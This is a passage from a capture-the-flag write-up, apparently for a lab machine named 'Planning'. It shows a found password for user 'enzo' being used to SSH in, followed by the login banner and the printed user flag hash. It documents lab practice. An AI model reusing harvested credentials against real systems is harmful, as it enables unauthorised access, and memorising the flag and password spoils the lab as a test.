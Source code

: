 ```bash
OLDPWD=/usr/share
root@7ce659d667d7:~# 

```

Credentials are : enzo / RioTecRANDEntANT!

So let’s ssh into it.

```bash
└─$ ssh enzo@planning.htb 
enzo@planning.htb's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun  7 02:55:19 AM UTC 2025

  System load:           0.2
  Usage of /:            74.7% of 6.30GB
  Memory usage:          45%
  Swap usage:            27%
  Processes:             321
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.68
  IPv6 address for eth0: dead:beef::250:56ff:feb0:70b6

  => There are 2 zombie processes.

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jun 7 03:14:22 2025 from 10.10.14.38
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
enzo@planning:~$ cat /home/enzo/user.txt 
e39536a2d452c96fbc9ce88945ba6ced
enzo@planning:~$ 

```

Congratulationss !!!!!! We got the user.txt flag now : e39536a2d452c96fbc9ce88945ba6ced
